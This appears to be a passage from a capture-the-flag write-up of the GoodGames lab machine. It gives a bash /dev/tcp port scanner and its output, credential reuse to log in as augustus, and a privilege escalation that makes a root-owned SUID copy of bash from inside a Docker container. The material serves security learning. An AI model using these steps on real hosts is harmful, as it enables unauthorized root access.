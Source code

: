 ```bash
```


### Script for port scanning
```bash
#!/bin/bash
hostname=192.168.0.1     #ip address of machine you want to scan
for port in {1..65535};do
2>/dev/null echo > /dev/tcp/$hostname/$port
if [ $? == 0 ]
 then
 {
 echo " $port is open"
 }
fi
done
```


### Open Ports
```bash
root@3a453ab39d3d:/home/augustus# ./BashPortScan.sh 
 22 is open
 80 is open
```

### Logging in as Augustus
Reusing the credentials
{{<figure src="/images/goodgames/sshToaugustus.png" title="Reusing credentials to log in augustus from the Docker Container">}}

### Creating an SUID
Preserved permision
```bash
auguaugustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls -la
total 1280
drwxr-xr-x 3 augustus augustus    4096 Mar 13 11:18 .
drwxr-xr-x 3 root     root        4096 Oct 19 12:16 ..
-rwxr-xr-x 1 augustus augustus 1234376 Mar 13 11:18 bash
lrwxrwxrwx 1 root     root           9 Nov  3 10:16 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19 12:16 .bash_logout
-rwxr-xr-x 1 root     root         203 Mar 13 10:48 BashPortScan.sh
-rw-r--r-- 1 augustus augustus    3526 Oct 19 12:16 .bashrc
-rwxr-xr-x 1 root     root       38197 Mar 12 05:41 deepce.sh
drwxr-xr-x 3 augustus augustus    4096 Mar 13 11:03 .local
-rw-r--r-- 1 augustus augustus     807 Oct 19 12:16 .profile
-rw-r----- 1 augustus augustus      33 Mar 13 10:31 user.txt

```

```bash
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4777 bash
root@3a453ab39d3d:/home/augustus# ls -la
total 1280
drwxr-xr-x 3 1000 1000    4096 Mar 13 11:18 .
drwxr-xr-x 1 root root    4096 Nov  5 15:23 ..
lrwxrwxrwx 1 root root       9 Nov  3 10:16 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19 11:16 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19 11:16 .bashrc
drwxr-xr-x 3 1000 1000    4096 Mar 13 11:03 .local
-rw-r--r-- 1 1000 1000     807 Oct 19 11:16 .profile
-rwxr-xr-x 1 root root     203 Mar 13 10:48 BashPortScan.sh
-rwsrwxrwx 1 root root 1234376 Mar 13 11:18 bash
```
